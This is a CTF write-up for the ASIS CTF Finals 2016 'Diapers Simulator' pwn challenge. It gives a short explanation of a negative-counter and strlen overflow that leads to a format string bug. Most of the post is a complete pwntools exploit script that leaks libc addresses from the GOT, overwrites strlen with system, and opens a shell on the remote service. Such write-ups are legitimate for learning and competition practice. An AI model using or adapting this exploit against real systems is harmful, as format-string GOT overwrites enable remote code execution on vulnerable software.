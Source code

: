 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/09/12/asis-ctf-finals-2016-diapers-simulator/
date: "2016-09-12T02:26:40+09:00"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "format-string-attack" ]
---
```


# ASIS CTF Finals 2016: Diapers Simulator

Only doing.

## solution

If the value of wetness is negative, you can overwrite the sponsor's message and do format string attack.

The struct is like below:

``` c
struct diaper_t {
    char brand[12];
    int wetness;
    char sponsor_message[];
};
```

`1) Change Diapers` can make the `wetness` negative.
`3. Bunny Rabbit` fills `brand` with $12$ bytes without null byte.
`0) Change Brand` use `strlen` to know the length and this allows us to modify the `sponsor_message`.
`2) Leave` has a format string bug with `sponsor_message`.
Now, you can do format string attack.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='diapers.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=1343, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./diapers')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

p = remote(args.host, args.port)
p.recvuntil('> ')
p.sendline('3')
for i in range(257):
    p.recvuntil('> ')
    p.sendline('1')
buflen = 108
offset = 15
def fsa(s, header=''):
    payload = ''
    payload += header
    assert len(payload) <= offset
    payload += ' ' * (offset - len(payload))
    payload += s
    assert len(payload) <= buflen
    payload += ' ' * (buflen - len(payload))
    p.recvuntil('> ')
    p.sendline('0')
    p.send(payload)
    p.recvuntil('> ')
    p.sendline('2')
    x = 'And now a message from our sponsors:\n'
    y = "Sorry, you're not allowed to leave your baby unless it's dry!\n"
    p.recvuntil(x)
    return p.recvuntil(y)[ : - len(y) ]

assert fsa('%18$p').startswith('%#x' % u32('%18$'))

# leak libc
libc_start_main  = u32(fsa('%20$s   ' + p32(elf.got['__libc_start_main']))[: 4])
setvbuf          = u32(fsa('%20$s   ' + p32(elf.got['setvbuf']))[: 4])
log.info('__libc_start_main: %#x', libc_start_main)
log.info('setvbuf: %#x', setvbuf)
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)

# got overwrite
write = { elf.got['strlen']: libc_base + libc.symbols['system'] }
payload = fmtstr.fmtstr_payload(18, write)
log.info('payload:\n' + fiddling.hexdump(payload))
fsa(payload, header='/bin/sh\0')

# run
p.recvuntil('> ')
p.sendline('0')

time.sleep(1)
p.sendline('id')
p.interactive()
```
